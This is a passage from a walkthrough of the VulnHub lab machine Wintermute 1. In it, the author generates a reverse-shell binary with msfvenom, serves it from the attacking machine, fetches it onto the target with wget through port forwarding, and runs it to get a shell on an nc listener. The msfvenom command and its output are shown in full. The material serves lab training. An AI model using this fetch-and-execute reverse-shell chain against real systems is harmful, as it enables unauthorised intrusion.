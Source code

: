_On the `nc` listener terminal_

![b74a45d2.png](/assets/images/posts/wintermute-1-walkthrough/b74a45d2.png)

Too bad, this version of `nc` doesn't support the `-e` option. And because we are executing shell commands with `java.lang.Runtime`, shell-specifics like pipe and redirection may not work.

Well, we can always execute `wget` to pull a reverse shell straight to Neuromancer. I can set up a Python SimpleHTTPServer listening at `4321/tcp` on my attacking machine. And because of the port forwarding, any `wget` request executed on Neuromancer to Straylight at `4321/tcp` gets to me.

`msfvenom` can generate the reverse shell like so.

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.40.128 LPORT=4321 -f elf -o rev
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: rev
```

_On the exploit script terminal_

![c9981d91.png](/assets/images/posts/wintermute-1-walkthrough/c9981d91.png)

_On the SimpleHTTPServer terminal_

![4fec86fc.png](/assets/images/posts/wintermute-1-walkthrough/4fec86fc.png)

All that's left is to make `/tmp/rev` executable and then execute it.

_On the exploit script terminal_

![36759fb2.png](/assets/images/posts/wintermute-1-walkthrough/36759fb2.png)

_On the `nc` listener terminal_

![23bf561c.png](/assets/images/posts/wintermute-1-walkthrough/23bf561c.png)


[1]: https://www.vulnhub.com/entry/wintermute-1,239/
[2]: https://www.reddit.com/user/_creosote
[3]: https://www.vulnhub.com/